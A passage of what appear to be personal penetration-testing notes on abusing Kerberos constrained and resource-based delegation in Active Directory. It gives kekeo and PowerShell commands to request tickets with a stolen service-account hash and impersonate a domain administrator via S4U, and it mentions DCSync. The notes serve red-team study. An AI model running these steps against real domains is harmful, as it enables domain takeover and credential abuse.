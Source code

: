    ```powershell
    # Find users and computers with constrained delegation enabled (also returns msDS-AllowedToDelegateTo)
    Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
    ## Can also use PowerView's "Get-DomainUser -TrustedToAuth" or "Get-DomainComputer -TrustedToAuth"
    
    # Getting TGT for compromised service account (kekeo)
    tgt::ask /user:<SERVICE_ACCOUNT> /domain:follow.0xd4y_notes.local /rc4:<NTLM_HASH>
    
    # Using kekeo, get TGS for service on behalf of Domain Administrator
    tgs::s4u /tgt:<TGT_FILE> /user:Administrator@follow.0xd4y_notes.local /service:<SERVICE>/<MACHINE>
    ```
    
- note you can only specify a service that is allowed by the `msDS-AllowedToDelegateTo` restriction or a service running under the same account
    - no validation is performed on SPN
        - especially useful when the service is running under a machine account (can potentially get access to the ldap service and run a DCSync attack by just impersonating a domain admin!)
    - no need to wait for user to connect to service as you are not extracting their TGT, you are just impersonating them when requesting a TGS
    
    Protocol Transition
    
    Suppose a user inputs their username and password in some login form of a web server to access some files. The web server then needs to authenticate to a file server to obtain the requested files. The major problem is, “Which domain user tried to access the web server?”. This is step 2:
    


1. 0xd4y authenticates to web service
2. Web service requests ticket from KDC for Joe (no password is supplied)
3. KDC checks for the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` attribute on the web server service account, and it also checks that Joe is not blocked for delegation. Returns a forwardable ticket for Joe’s account if true (S4U2Self).
4. Forwardable ticket is passed to KDC and a TGS is requested for CIFS/file_server.0xdy_notes.local
5. KDC checks `msDS-AllowedToDelegateTo` field on web server service account. TGS is sent if the service is allowed (S4U2Proxy)
6. Web service uses TGS to authenticate to CIFS on file server as Joe.
- note the big problem in step 2, this means you can access CIFS on file_server.0xd4y_notes.local by impersonating any user including a domain admin
1. ********************Resource-based Constrained Delegation********************
    - the service owner chooses who can delegate to it as defined by `msDS-AllowedToActOnBehalfOfOtherIdentity` (visible as `PrincipalsAllowedToDelegateToAccount`)
    - with `GenericAll` or `GenericWrite` to the server, you can run the following:
    
    ```powershell
    # Check for interesting ACLs on account you own
    Find-InterestingDomainACL | ?{$_.identityreferencename -match '0xd4y'}
    